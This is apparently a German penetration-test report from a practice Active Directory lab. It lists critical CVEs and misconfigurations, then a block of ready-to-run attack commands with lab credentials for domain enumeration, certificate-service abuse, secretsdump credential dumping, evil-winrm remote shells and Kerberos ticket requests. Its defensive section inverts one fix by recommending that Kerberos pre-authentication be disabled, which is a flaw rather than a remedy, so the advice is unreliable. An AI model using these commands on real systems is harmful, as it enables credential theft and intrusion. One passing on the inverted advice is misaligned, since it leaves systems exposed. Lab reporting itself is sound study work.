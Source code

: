 
## ⚠️ Kritische Schwachstellen

### **High/Critical CVEs identifiziert:**
- **CVE-2021-44228** (Log4Shell) - CRITICAL
- **CVE-2015-9323** - CRITICAL  
- **CVE-2016-10033** - CRITICAL
- **CVE-2019-19781** (Citrix) - CRITICAL
- **100+ weitere High/Critical CVEs**

### **Misconfigurations:**
- ❌ **Anonymous LDAP Bind** möglich
- ❌ **SMB Signing nicht erforderlich** (BRAAVOS)
- ❌ **Schwache Service Account Passwords**
- ❌ **Offene File Shares** mit sensiblen Daten

---

## 📊 Tool-Empfehlungen für Phase 3

### **Must-Have Tools:**

```bash
# Domain Enumeration & Attack Path Discovery
bloodhound-python -c all -u jon.snow -p iknownothing -d north.sevenkingdoms.local -ns 192.168.20.11

# Certificate Services Attacks  
certipy find -u jon.snow -p iknownothing -dc-ip 192.168.20.23
certipy req -username jon.snow -password iknownothing -ca braavos-ca -template User

# Credential Dumping
secretsdump.py north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.11

# SQL Server Exploitation
mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.22

# PowerShell Execution
evil-winrm -i 192.168.20.22 -u jon.snow -p iknownothing

# Kerberos Attacks
getTGT.py -dc-ip 192.168.20.11 north.sevenkingdoms.local/jon.snow:iknownothing
```

---

## 🔒 Defensive Recommendations

### **Immediate Fixes:**
1. **Deaktiviere Kerberos Pre-Authentication** für brandon.stark
2. **Ändere schwache Passwords** (jon.snow, brandon.stark)
3. **Konfiguriere SMB Signing** als required
4. **Beschränke Share-Berechtigungen** (/all, /public)
5. **Patche kritische CVEs** (Log4Shell, etc.)
